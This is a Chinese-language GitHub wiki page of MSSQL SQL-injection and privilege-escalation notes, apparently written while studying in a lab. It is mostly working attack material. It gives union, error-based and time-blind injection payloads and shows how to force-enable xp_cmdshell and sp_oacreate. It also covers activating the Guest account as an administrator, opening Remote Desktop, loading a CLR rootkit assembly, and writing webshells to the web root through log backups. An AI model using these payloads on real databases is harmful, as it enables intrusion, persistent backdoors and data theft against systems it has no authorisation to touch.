







MSSQL_SQL_BYPASS_WIKI/1.2.MSSQL信息收集.md at master · aleenzz/MSSQL_SQL_BYPASS_WIKI
https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI/blob/master/1.2.MSSQL%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86.md

# 环境搭建

- cn_windows_server_2008_r2_standard_enterprise_datacenter_and_web_with_sp1_x64_dvd_617598.iso

  ```
  补丁：kb4474419 # 打了才能装vmtools
  
  服务器管理器添加角色IIS
  记得勾选.net开发
  IIS管理器添加网站，开启父路径
  ```

- Sqlserver  2008

  https://download.microsoft.com/download/9/4/8/948966AB-52CA-40F1-8051-0216481065E6/SQLEXPR_x64_CHS.exe

  ```
  密码：SA123@
  
  C:\Windows\SysWOW64\SQLServerManager10
  开启TCP/IP
  ```

  

- https://github.com/Larryxi/MSSQL-SQLi-Labs

  ```
  创建数据库test
  修改数据库配置文件
  ```

  

# 基础

## 系统数据库

- `master` ：master数据库控制SQL Server的所有方面。这个数据库中包括所有的配置信息、用户登录信息、当前正在服务器中运行的过程的信息。
- `model`：SQL Server为用户数据库提供的样板，新的用户数据库都以model数据库为基础
- `msdb`   ：由 Enterprise Manager和Agent使用，记录着任务计划信息、事件处理信息、数据备份及恢复信息、警告及异常信息。
- `tempdb`  ：它为临时表和其他临时工作提供了一个存储区。例如，排序时要用到tempdb数据库。数据被放进tempdb数据库，排完序后再把结果返回给用户。每次SQL Server重新启动，它都会清空tempdb数据库并重建。永远不要在tempdb数据库建立需要永久保存的表。


## 权限

- `sa（SysAdmin）`权限：数据库操作，文件管理，命令执行，注册表读取等system。SQLServer数据库的最高权限
- `db（Database_owner）`权限：文件管理，数据库操作等权限 users-administrators
- `public`权限：数据库操作 guest-users


## 注释符

```sql
--
/**/
```

## 变量和函数

```mssql
@@VERSION
@@servername  -- 服务器名
host_name() -- 主机名

-- 判断站库分离
host_name()==@@servername

db_name()  -- 当前数据库
db_name(num) -- 遍历其他数据库

user
user_name()

is_member('db_owner')  	-- 判断是否是db_owner权限

is_srvrolemember('sysadmin')     -- 判断是否是SA权限
is_srvrolemember('public') -- 判断是否是public权限
```

## 数据表

```mssql
master..sysdatabases -- 存放所有数据库
master..sysobjects --  存放所有数据表

-- 字段名为name

select name from master..sysobjects where xtype='U' -- 查询用户自建表
```

```mssql
[dbname].information_schema.columns  -- db的所有字段

字段名table_name,column_name
```

```mssql
[dbname].information_schema.tables 	 -- db的所有表

字段名table_name
```


# 注入手段

## 报错注入

> 利用显示或隐式转换来报错注入

```mssql
select * from admin where id =1 (select CAST(USER as int))

select * from admin where id =1 (select convert(int,user))
```




【SQL注入】详解基于MSSQL “order by”语句报错的SQL注入技术 – 绿盟科技技术博客
https://blog.nsfocus.net/mssql-order-by/


## 联合注入

- 判断字段

  

- 查找回显

  

- 爆库

  ```mssql
  ?id=-1' union select 1,2,db_name(num)--
  ```

- 爆表

  ```mssql
  ?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' --
  
  ?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' and name!='[第一条获得的表名]' --
  
  ?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' and name not in ([前面的表]) --
  ```

- 爆字段

  ```mssql
  ?id=-1' union select  top 1  1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' --
  
  ?id=-1' union select  top 1  1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' and COLUMN_NAME and COLUMN_NAME!='id' --
  
  ?id=-1' union select  top 1  1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' and COLUMN_NAME not in ('id','username') --
  ```

  - 爆字段值

  ```mssql
  ?id=-1' union select  top 1  1,2, COLUMN_NAME from 'users' --
  
  
  ?id=-1' union select  top 1 1,2,username from users where username!='Dumb'--
  
  ?id=-1' union select  top 1 1,2,username from users where username not in ('Dumb','Angelina')--
  ```

  

## 堆叠注入

默认开启


## 时间盲注

```mssql
if(xxx) waitfor delay '0:0:2'
```

> 0:0:2
>
> 小时:分钟:秒


# GetShell

## 绝对路径🔍

> `xp_dirtree` 是一个存储过程（stored procedure），它是 Microsoft SQL Server 数据库引擎提供的一个内置过程。该过程可用于执行文件系统目录树扫描操作。
>
> 使用 `xp_dirtree` 存储过程，可以指定一个文件路径，然后执行递归扫描该路径下的所有文件和文件夹，并将结果以表格形式返回给用户

```mssql
execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录 
execute master..xp_dirtree 'c:',1 //只列c:\文件夹 
execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件 
```

```mssql
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);

insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1
```

```mssql
CREATE TABLE cmdtmp (dir varchar(8000));

insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
```


## SA权限

### xp_cmdshell

- 是否开启

  ```mssql
  select count(*) FROM master..sysobjects Where xtype = 'X' AND name = 'xp_cmdshell' 
  
  返回值为1 → 开启
  ```

- 强制开启

  ```mssql
  -- 将该选项的值设置为1
  execute('sp_configure "show advanced options",1')  
  -- 保存设置
  execute('reconfigure') 
  -- 将xp_cmdshell的值设置为1
  execute('sp_configure "xp_cmdshell", 1') 
  -- 保存设置
  execute('reconfigure')                             
  ```

- 恢复被删除的`xp_cmdshell`

  下载：https://cn.dll-files.com/xplog70.dll.html

  ```mssql
  Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
  ```

- 命令执行--有回显（返回命令结果）

  ```mssql
  execute('xp_cmdshell "whoami"') 
  ```

- 获得主机权限

  > 版本问题？？

  ```mssql
  exec xp_cmdshell 'net user Guest 123456'              --给guest用户设置密码
  exec xp_cmdshell 'net user Guest /active:yes'         --激活guest用户
  exec xp_cmdshell 'net localgroup administrators Guest /add'  --将guest用户添加到administrators用户组
  exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'        --开启3389端口
  ```


### sp_oacreate

- 是否开启

  ```mssql
  select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
  
  返回值为1 → 开启
  ```

- 强制开启

  ```mssql
  EXEC sp_configure 'show advanced options', 1;  
  RECONFIGURE WITH OVERRIDE;  
  EXEC sp_configure 'Ole Automation Procedures', 1;  
  RECONFIGURE WITH OVERRIDE;  
  ```

- 命令执行--无回显（不返回命令结果）

  ```mssql
  declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > e:\\test2.txt'
  ```


### CLR功能

> CLR（公共语言运行时）提供了 .NET Framework 的代码执行环境，可以通过 .NET Framework 来编写存储过程、触发器等功能 。简单说，通过 CLR 能够在 [SQLServer](https://cloud.tencent.com/product/sqlserver?from=20065&from_column=20065) 中注册一套程序集，实现执行任意的 .NET 代码。既然可以执行代码，此时就可以实现很多功能。

使用：https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit

```mssql
--启用MSSQL CLR功能
exec sp_configure 'show advanced options', 1;
RECONFIGURE;
Exec sp_configure 'clr enabled', 1;
RECONFIGURE;
 
--为了导入了不安全的程序集，我们还需要将数据库标记为安全。
ALTER DATABASE [master] SET TRUSTWORTHY ON;
 
--导入程序集，单独执行
xxx
--创建存储过程,单独执行
CREATE PROCEDURE sp_cmdExec @Command [nvarchar](4000) WITH EXECUTE AS CALLER AS EXTERNAL NAME WarSQLKit.StoredProcedures.CmdExec;
--执行命令
EXEC sp_cmdExec 'whoami';
--删除该程序集
DROP PROCEDURE sp_cmdExec;DROP ASSEMBLY [WarSQLKit];
```

## db_owner权限

### LOG备份

- 存在数据库备份文件
- 网站的绝对路径
- 堆叠注入

```mssql
alter database 数据库名 set RECOVERY FULL;   --修改数据库恢复模式为 完整模式
create table cmd (a image);        --创建一张表cmd，只有一个列 a，类型为image
backup log 数据库名 to disk= 'C:\phpstudy\WWW\1.php' with init;   --备份表到指定路径
insert into cmd (a) values(木马十六进制);  --插入一句话到cmd表里
backup log 数据库名 to disk='C:\phpstudy\WWW\2.php';   --把操作日志备份到指定文件
drop table cmd;    --删除cmd表
```

`2.php`为木马文件


### 差异备份

> 注：差异备份有概率会把网站搞崩，所以不建议使用差异备份

- 网站的绝对路径
- 堆叠注入

```mssql
create table [dbo].[test] ([cmd] [image])

declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x6b 68617a backup log @a to disk = @s with init,no_truncate

insert into [test](cmd) values(木马十六进制)

declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=绝对路径十六进制 backup log @a to disk=@s with init,no_truncate

Drop table [test]
```


# 补充--待学习

```
MSSQL 2017--Python和R脚本
沙盒命令执行
Agent Job命令执行
```

https://xz.aliyun.com/t/7534#toc-17

[MSSQL GetShell方法 - 先知社区](https://xz.aliyun.com/t/8603)

[mssql 提权总结 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1545/)


# 实战问题记录

## 语法报错



实际上是sql基础不行，u_lastactive字段类型为日期类型，后面的值跟的是字符串类型，所以会报错，换一个字符串类型的字段或者进行类型转换即可



类型转换




## 如何分页查询

|        目的        |                       SqlServer(mssql)                       |                Mysql                |
| :----------------: | :----------------------------------------------------------: | :---------------------------------: |
| 取第m条到第n条记录 | select top (n-m+1) name from users where name not in (select top m-1 name from users) | select  name  from users limit m, n |

使用模糊查询，重点是提取可浮动的值


# 如何去重

distinct